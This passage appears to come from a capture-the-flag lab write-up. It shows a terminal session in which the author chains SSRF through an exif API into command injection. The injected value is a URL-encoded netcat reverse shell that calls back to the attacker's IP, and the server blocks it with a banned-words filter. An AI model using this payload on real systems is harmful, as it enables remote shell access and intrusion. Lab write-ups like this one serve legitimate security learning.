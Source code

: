 ```bash
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               sh: 1: Syntax error: end of file unexpected

root@ip-10-10-128-153:~# curl 'http://10.10.201.106/api/exif?url=http://api-dev-backup:8080/exif?url=;rm%2520%252Ftmp%252Ff%253Bmkfifo%2520%252Ftmp%252Ff%253Bcat%2520%252Ftmp%252Ff%257C%252Fbin%252Fsh%2520%252Di%25202%253E%25261%257Cnc%252010%252E10%252E128%252E153%25209999%2520%253E%252Ftmp%252Ff'
An error occurred: HTTP Exception 400 Bad Request
                Response was:
                ---------------------------------------
                <-- 400 http://api-dev-backup:8080/exif?url=;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E10%2E128%2E153%209999%20%3E%2Ftmp%2Ff
Response : Bad Request
Length : 29
Body : Request contains banned words
Headers : (2)
Content-Type : text/plain;charset=UTF-8
Content-Length : 29
```
Filtering of some kind. The credentials you can get don't actually work, but there is a git log eluding to the need for port knocking...
